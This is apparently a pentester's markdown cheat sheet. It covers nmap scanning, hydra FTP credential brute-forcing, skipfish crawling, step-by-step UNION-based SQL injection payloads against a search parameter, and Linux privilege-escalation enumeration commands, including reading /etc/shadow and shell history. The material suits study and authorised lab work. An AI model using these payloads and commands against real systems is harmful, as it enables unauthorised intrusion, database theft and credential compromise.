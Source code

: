 ## nmap commands
- `nmap -sV -p <list of ports> <IP address>`: Lists all the services running on the ports

## hydra commands
- `hydra -C <username & password file> ftp://<IP address>`: Attempts to log in to the FTP service at the specified IP address using a list of username and password combinations provided in the file.

## skipfish commands
- `skipfish -o <Output file> <website url>`: Crawls the website to find all available directories
- `skipfish -o <Output file> -A <user>:<password> <website url>`: Crawls while logged in with HTML credentials

## SQL Injection
### SQL Injection in search fields
Lets say the search page is handled by a file named sql.php and the parameter is search.
Sql.php?search=pentesting  
First thing we try is to search with single quote '  
`Sql.php?search='`  
If it retruns an error, then we know its vulnerable.
Our next step is to determine the number of columns starting from running a normal query
on the search box to get an idea.  
Finding the number of columns:  
`Sql.php?search=test' order by 1-- -` [In the search field: `test' ORDER BY 1-- -`]  
or  
`Sql.php?search=test' order by 1--` [In the search field: `test' ORDER BY 1--`]  
We keep incrementing the number until we hit an error which indicates the number of columns.

Then we search for something similar to that below:  
`Sql.php?search=pentesting' union select 1,1,1,1,1,1#` [In the search field: `pentesting' UNION SELECT 1,1,1,1,1,1-- -`]  
or  
`Sql.php?search=pentesting' AND 1 = 0 UNION ALL SELECT 1,1,1,1,1,1 FROM information_schema.tables WHERE 1=0 OR 1=1-- `  
We continue adding '1's untill we don't receive any error from the page.
Only then we know how many columns by counting the '1's.

Then we try to find the database name, table names, columns of target table  
`Sql.php?search=pentesting' union select 1,database(),@@version,1,1,1#`  
or  
`Sql.php?search=pentesting' and 1 = 0 union all select 1,database(),@@version,1,1,1 from information_schema.tables where 1=0 OR 1=1-- -`  

`Sql.php?search=pentesting' union select 1,table_name,1,1,1,1 from information_schema.tables#` [In the search field: `pentesting' UNION SELECT 1,table_name,1,1 FROM information_schema.tables-- -`]

## Privilege escalation (Linux)
https://www.youtube.com/watch?v=ZTnwg3qCdVM
### System Enumeration
First get OS version, such that you can look for exploits of it and to be able to keep track of it  
`uname -a`  
Get info of the architecture, so you know vendor type, amount of cores and threads, etc. (good to know for some exploits)  
`lscpu`  
Check what services are running.  
`ps aux`  

### User Enumeration
To find out who we are, what permissions we have and what we are capable of doing.  
To check our username, what id´s everybody on the system has, and what sudo commands we can run, we use the following commands  
`whoami` `id` `sudo -l`  
We can check for other users  
`cat /etc/passwd | cut -d : -f 1`
We should look if we have access to any sensitive files, such as the shadow file
`cat /etc/shadow`  
Look at history is available, as in commands done by user  
`history`  

### Network Enumeration
To better understand the what our IP architecture is, what we're interacting with and what open ports may be available internally the might not be exposed externally.  
Check first out IP-address. We get information if it might be dual homed, communication with multiple networks. Then we'll get multiple IP-addresses. Check the "inet" address.  
`ifconfig` or `ip a`  
We can also use this command to check if the machine is communicating with another. We'll see our network first with the bits masked, next to it we can see our sourced adress ("src") which is our actually IP-address.
Then underneath we can see which address it's sourced through (Which is on of it's routes).  
`ip route`  
Another way to look at that too is with ARP tables. ARP tables will tell us who we're communicating with and maybe there's a machine that we're talking with kind of back and forth.  
`arp -a` or `ip neigh`  
Lastly we want to identify the ports what ports are open as well as what Communications exist. If there are machines communicating with the machine we're on we might be able to find an exploit.
We want to check if maybe any port is open only for the localhost ("127.0.0.1"), since then it won't be open externally.  
`netstat -ano`
